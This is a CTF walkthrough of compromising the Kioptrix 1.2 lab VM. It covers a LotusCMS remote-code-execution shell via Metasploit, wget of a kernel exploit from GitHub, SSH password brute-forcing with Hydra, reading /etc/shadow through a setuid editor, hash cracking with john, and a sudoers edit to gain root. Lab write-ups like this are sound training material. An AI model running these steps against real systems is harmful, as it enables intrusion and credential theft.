





Vulnhub - Kioptrix 1.2 (#3)
Finding the IP of the VM
Huh, this time I didn’t have to do weird stuff to fix the network! Just changed the network adapter from bridged to NAT!
kali@kali:~$ sudo arp-scan 172.16.149.0/24
Interface: eth0, type: EN10MB, MAC: 00:0c:29:fd:2b:71, IPv4: 172.16.149.129
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
172.16.149.1 00:50:56:c0:00:08 VMware, Inc.
172.16.149.2 00:50:56:fd:11:d0 VMware, Inc.
172.16.149.132 00:0c:29:3e:dd:2b VMware, Inc.
172.16.149.254 00:50:56:fe:b1:9f VMware, Inc.
IP of the target is: 172.16.149.132 !
We just have one tiny little thing to do before we can poke the VM, as indicated by the README :
Before playing the game, please modify your attacker's hosts file.
<ip> kioptrix3.com
This challenge contains a Web Application.
Append a line to /etc/hosts on the kali box:
172.16.149.132 kioptrix3.com
Scanning In Progress
$ sudo nmap -T4 -p- -A -oA nmap_tcp 172.16.149.132
Well, at least there is not a bazillion services on this one…
| port | service |
|---|---|
| 22 | SSH OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0) |
| 80 | Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch) |
22 SSH
The version of OpenSSH 4.7p1 might be vulnerable and have a predictable PRNG: https://www.exploit-db.com/exploits/5720.
Let’s keep that information in mind and move on to the web server now. We’ll come back here if we have nothing else on the web server.
80 Apache server
Let’s explore this website ~~

http://kioptrix3.com/index.php?system=Blog

http://kioptrix3.com/index.php?system=Admin

Okay, so a couple of interesting stuff to look at here:
- the login page
- LotusCMS (the logo on the login page)
- the comment form on the blog page
LotusCMS - First Shell
Sounds like LotusCMS is an interesting path, let’s check if there is any available CVE…
kali@kali:~$ searchsploit lotusCMS
--------------------------------------- ----------------------------------------
Exploit Title | Path
| (/usr/share/exploitdb/)
--------------------------------------- ----------------------------------------
LotusCMS 3.0 - 'eval()' Remote Command | exploits/php/remote/18565.rb
LotusCMS 3.0.3 - Multiple Vulnerabilit | exploits/php/webapps/16982.txt
--------------------------------------- ----------------------------------------
- https://www.exploit-db.com/exploits/15964 => LFI RCE
- https://www.exploit-db.com/exploits/18565 => RCE included in metasploit as
exploit/multi/http/lcms_php_exec - https://www.exploit-db.com/exploits/16982 => uninteresting, stored XSS, XSS and CSRF
CVE 18565 sounds like the most interesting for us, let’s fire up metasploit then:
$ msfconsole
msf5 > search lotusCMS
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 exploit/multi/http/lcms_php_exec 2011-03-03 excellent Yes LotusCMS 3.0 eval() Remote Command Execution
msf5 > use 0
msf5 exploit(multi/http/lcms_php_exec) > set RHOSTS 179.16.149.129
RHOSTS => 179.16.149.129
msf5 exploit(multi/http/lcms_php_exec) > set URI http://kioptrix3.com/
URI => http://kioptrix3.com/
msf5 exploit(multi/http/lcms_php_exec) > run
[*] Started reverse TCP handler on 172.16.149.129:4444
[*] Exploit completed, but no session was created.
Huh, no session. Let’s try a different URL maybe?
- set URI /index.php?page=index
- set URI http://kioptrix3.com/index.php?page=index
- set URI http://kioptrix3.com
Still nothing, maybe the payload is too complicated ? After the exploit is selected, use show payload to display the payloads compatible with that specific exploit and pick another one.
After half an hour trying all the payloads, the URI and studying the code of the exploit… Nothing was working…
APPARENTLY I JUST HAVE PHAT FINGERS.
I finally realized that I set the wrong IP in RHOSTS… Duh.
msf5 exploit(multi/http/lcms_php_exec) > set RHOSTS 172.16.149.132
RHOSTS => 172.16.149.132
msf5 exploit(multi/http/lcms_php_exec) > run
[*] Using found page param: /index.php?page=index
[*] Sending exploit ...
[*] Started bind TCP handler against 172.16.149.132:4444
[*] Command shell session 3 opened (172.16.149.129:42067 -> 172.16.149.132:4444) at 2020-04-18 16:43:11 -0400
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
ls
cache
core
data
favicon.ico
gallery
gnu-lgpl.txt
index.php
modules
style
update.php
uname -a
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686 GNU/Linux
cat /etc/*release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=8.04
DISTRIB_CODENAME=hardy
DISTRIB_DESCRIPTION="Ubuntu 8.04.3 LTS"
And we’ve got a shell /o/ A weird one that cannot change directory though:
pwd
/home/www/kioptrix3.com
cd /
pwd
/home/www/kioptrix3.com
Kernel Exploitation
The kernel is a 2.6.24 which is vulnerable to a couple of kernel exploits like: https://github.com/lucyoa/kernel-exploits/tree/master/american-sign-language.
But it doesn’t seem possible to download any exploit from the unprivileged shell:
wget https://raw.githubusercontent.com/lucyoa/kernel-exploits/master/american-sign-language/american-sign-language.c
ls
cache
core
data
favicon.ico
gallery
gnu-lgpl.txt
index.php
modules
style
update.php
No american-sign-language.c file here :(( Looks like a dead end, let’s try something else…
Poking the Other Users
Are we all alone on that machine?
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
mysql:x:104:108:MySQL Server,,,:/var/lib/mysql:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
loneferret:x:1000:100:loneferret,,,:/home/loneferret:/bin/bash
dreg:x:1001:1001:Dreg Gevans,0,555-5566,:/home/dreg:/bin/rbash
Huhu, 2 users here: loneferret and dreg! Let’s check their homes, surely they have secrets…
The home of dreg is the definition of boring…
$ ls -la /home/dreg
total 20
drwxr-xr-x 2 dreg dreg 4096 Apr 16 2011 .
drwxr-xr-x 5 root root 4096 Apr 16 2011 ..
-rw-r--r-- 1 dreg dreg 220 Apr 16 2011 .bash_logout
-rw-r--r-- 1 dreg dreg 2940 Apr 16 2011 .bashrc
-rw-r--r-- 1 dreg dreg 586 Apr 16 2011 .profile
What about loneferret?
s -la /home/loneferret
total 64
drwxr-xr-x 3 loneferret loneferret 4096 Apr 17 2011 .
drwxr-xr-x 5 root root 4096 Apr 16 2011 ..
-rw-r--r-- 1 loneferret users 13 Apr 18 2011 .bash_history
-rw-r--r-- 1 loneferret loneferret 220 Apr 11 2011 .bash_logout
-rw-r--r-- 1 loneferret loneferret 2940 Apr 11 2011 .bashrc
-rw------- 1 root root 15 Apr 15 2011 .nano_history
-rw-r--r-- 1 loneferret loneferret 586 Apr 11 2011 .profile
drwx------ 2 loneferret loneferret 4096 Apr 14 2011 .ssh
-rw-r--r-- 1 loneferret loneferret 0 Apr 11 2011 .sudo_as_admin_successful
-rw-r--r-- 1 root root 224 Apr 16 2011 CompanyPolicy.README
-rwxrwxr-x 1 root root 26275 Jan 12 2011 checksec.sh
A Company Policy, chic chic chic!
cat /home/loneferret/CompanyPolicy.README
Hello new employee,
It is company policy here to use our newly installed software for editing, creating and viewing files.
Please use the command 'sudo ht'.
Failure to do so will result in you immediate termination.
DG
CEO
cat /home/loneferret/.bash_history
sudo ht
exit
Huoh. A setuid binary huh? Interesting
which ht
/usr/local/bin/ht
ls -lah /usr/local/bin/ht
-rwsr-sr-x 1 root root 2.0M Apr 16 2011 /usr/local/bin/ht
file /usr/local/bin/ht
/usr/local/bin/ht: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.6.8, dynamically linked (uses shared libs), not stripped
Found in the output of strings /usr/local/bin/ht:
- http://hte.sourceforge.net/
This is HT 2.0.18;
Okay, so that loneferret user can run sudo ht, which is an editor for executables, it’s probably using the ncurses library to provide a CLI interface, which won’t run in our broken shell… Is there another way to get access to the loneferret account though? Maybe that user has a well known password…
SSH bruteforce - Second Shell
Let’s run hydra with the rockyou.txt wordlist to bruteforce the password on SSH:
$ hydra -l loneferret -P /usr/share/wordlists/rockyou.txt -t 3 ssh://172.16.149.132
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-04-23 13:48:31
[DATA] max 3 tasks per 1 server, overall 3 tasks, 14344399 login tries (l:1/p:14344399), ~4781467 tries per task
[DATA] attacking ssh://172.16.149.132:22/
[STATUS] 39.00 tries/min, 39 tries in 00:01h, 14344360 to do in 6130:05h, 3 active
[STATUS] 26.67 tries/min, 80 tries in 00:03h, 14344319 to do in 8965:12h, 3 active
[STATUS] 26.14 tries/min, 183 tries in 00:07h, 14344216 to do in 9144:46h, 3 active
[STATUS] 25.33 tries/min, 380 tries in 00:15h, 14344019 to do in 9436:52h, 3 active
[22][ssh] host: 172.16.149.132 login: loneferret password: starwars
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-04-23 14:15:48
And it’s a match ! We’ve got ssh credentials: loneferret:starwars
Let’s try them:
kali@kali:/mnt/hgfs/shared/kioptrix_3$ ssh loneferret@172.16.149.132
loneferret@172.16.149.132's password: [starwars]
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686
The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
Last login: Sat Apr 16 08:51:58 2011 from 192.168.1.106
loneferret@Kioptrix3:~$ ls -la
total 64
drwxr-xr-x 3 loneferret loneferret 4096 2011-04-17 08:59 .
drwxr-xr-x 5 root root 4096 2011-04-16 07:54 ..
-rw-r--r-- 1 loneferret users 13 2011-04-18 11:44 .bash_history
-rw-r--r-- 1 loneferret loneferret 220 2011-04-11 17:00 .bash_logout
-rw-r--r-- 1 loneferret loneferret 2940 2011-04-11 17:00 .bashrc
-rwxrwxr-x 1 root root 26275 2011-01-12 10:45 checksec.sh
-rw-r--r-- 1 root root 224 2011-04-16 08:51 CompanyPolicy.README
-rw------- 1 root root 15 2011-04-15 21:21 .nano_history
-rw-r--r-- 1 loneferret loneferret 586 2011-04-11 17:00 .profile
drwx------ 2 loneferret loneferret 4096 2011-04-14 11:05 .ssh
-rw-r--r-- 1 loneferret loneferret 0 2011-04-11 18:00 .sudo_as_admin_successful
loneferret@Kioptrix3:~$
Way better shell !
The ht Editor
Okay let’s try running that ht editor:
loneferret@Kioptrix3:~$ sudo ht --help
Error opening terminal: xterm-256color.
Oopsie, shell is too fancy:
loneferret@Kioptrix3:~$ export TERM=xterm
loneferret@Kioptrix3:~$ sudo ht --help

That explains why even the --help wouldn’t run from a less functional shell…
After a bit of mucking around, I discover than alt is the key to prefix all shortcuts.
I had high hopes for the evaluate command in the Edit menu. Buuuut, there is even better!
First create a dummy file before running sudo ht
loneferret@Kioptrix3:~$ touch shadow
Then, in the edit menu, call:
copy from filefetch /etc/shadowpaste into fileshadowin loneferret’s home
And voilà, you’ve got a copy of /etc/shadow that you can read:
loneferret@Kioptrix3:~$ cat shadow
root:$1$QAKvVJey$6rRkAMGKq1u62yfDaenUr1:15082:0:99999:7:::
daemon:*:15075:0:99999:7:::
bin:*:15075:0:99999:7:::
sys:*:15075:0:99999:7:::
sync:*:15075:0:99999:7:::
games:*:15075:0:99999:7:::
man:*:15075:0:99999:7:::
lp:*:15075:0:99999:7:::
mail:*:15075:0:99999:7:::
news:*:15075:0:99999:7:::
uucp:*:15075:0:99999:7:::
proxy:*:15075:0:99999:7:::
www-data:*:15075:0:99999:7:::
backup:*:15075:0:99999:7:::
list:*:15075:0:99999:7:::
irc:*:15075:0:99999:7:::
gnats:*:15075:0:99999:7:::
nobody:*:15075:0:99999:7:::
libuuid:!:15075:0:99999:7:::
dhcp:*:15075:0:99999:7:::
syslog:*:15075:0:99999:7:::
klog:*:15075:0:99999:7:::
mysql:!:15075:0:99999:7:::
sshd:*:15075:0:99999:7:::
loneferret:$1$qbkHf53U$r.kK/JgDLDcXGRC6xUfB11:15079:0:99999:7:::
dreg:$1$qAc2saWZ$Y567sEs.ql3GMttI6pvoe0:15080:0:99999:7:::
Let’s try to break the root password, copy /etc/shadow and /etc/passwd in the same directory on the kali box:
kali@kali:~$ unshadow -h
Created directory: /home/kali/.john
Usage: unshadow PASSWORD-FILE SHADOW-FILE
kali@kali:~$ unshadow passwd shadow > passwords
Okay, let’s run jooohn:
kali@kali:~$ john --wordlist=/usr/share/wordlists/rockyou.txt passwords
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
starwars (loneferret)
Mast3r (dreg)
kali@kali:~$ john --show passwords
loneferret:starwars:1000:100:loneferret,,,:/home/loneferret:/bin/bash
dreg:Mast3r:1001:1001:Dreg Gevans,0,555-5566,:/home/dreg:/bin/rbash
2 password hashes cracked, 1 left
So we looted another user credentials: dreg:Mast3r! But we still haven’t found root’s password.
Let’s try the kernel exploit again maybe:
loneferret@Kioptrix3:~$ cd /tmp
loneferret@Kioptrix3:/tmp$ wget --no-check-certificate https://raw.githubusercontent.com/lucyoa/kernel-exploits/master/american-sign-language/american-sign-language.c
loneferret@Kioptrix3:/tmp$ gcc american-sign-language.c -o american-sign-language
american-sign-language.c: In function ‘main’:
american-sign-language.c:220: warning: integer constant is too large for ‘long’ type
american-sign-language.c:253:2: warning: no newline at end of file
loneferret@Kioptrix3:/tmp$ chmod +x american-sign-language
loneferret@Kioptrix3:/tmp$ ./american-sign-language
[+] resolving required symbols...
[-] prepare_kernel_cred symbol not found, aborting!
Still nope.
Privesc
What about sudo?
loneferret@Kioptrix3:~$ sudo -l
User loneferret may run the following commands on this host:
(root) NOPASSWD: !/usr/bin/su
(root) NOPASSWD: /usr/local/bin/ht
loneferret@Kioptrix3:~$ su
Password:
su: Authentication failure
loneferret@Kioptrix3:~$ sudo -i
[sudo] password for loneferret:
Sorry, user loneferret is not allowed to execute '/bin/bash' as root on Kioptrix3.
Okay, let’s fix that! Run ht in text mode and edit the sudoers file like so:
loneferret@Kioptrix3:~$ sudo ht -t /etc/sudoers

loneferret@Kioptrix3:~$ sudo -i
root@Kioptrix3:~# id
uid=0(root) gid=0(root) groups=0(root)
we got it /o/
root@Kioptrix3:~# ls
Congrats.txt ht-2.0.18
root@Kioptrix3:~# cat Congrats.txt
Good for you for getting here.
Regardless of the matter (staying within the spirit of the game of course)
you got here, congratulations are in order. Wasn't that bad now was it.
Went in a different direction with this VM. Exploit based challenges are
nice. Helps workout that information gathering part, but sometimes we
need to get our hands dirty in other things as well.
Again, these VMs are beginner and not intented for everyone.
Difficulty is relative, keep that in mind.
The object is to learn, do some research and have a little (legal)
fun in the process.
I hope you enjoyed this third challenge.
Steven McElrea
aka loneferret
http://www.kioptrix.com
Credit needs to be given to the creators of the gallery webapp and CMS used
for the building of the Kioptrix VM3 site.
Main page CMS:
http://www.lotuscms.org
Gallery application:
Gallarific 2.1 - Free Version released October 10, 2009
http://www.gallarific.com
Vulnerable version of this application can be downloaded
from the Exploit-DB website:
http://www.exploit-db.com/exploits/15891/
The HT Editor can be found here:
http://hte.sourceforge.net/downloads.html
And the vulnerable version on Exploit-DB here:
http://www.exploit-db.com/exploits/17083/
Also, all pictures were taken from Google Images, so being part of the
public domain I used them.
Takeaways:
- If your exploit doesn’t work, triple check that RHOST is correct.
- Don’t run text editors as setuid root binaries :)))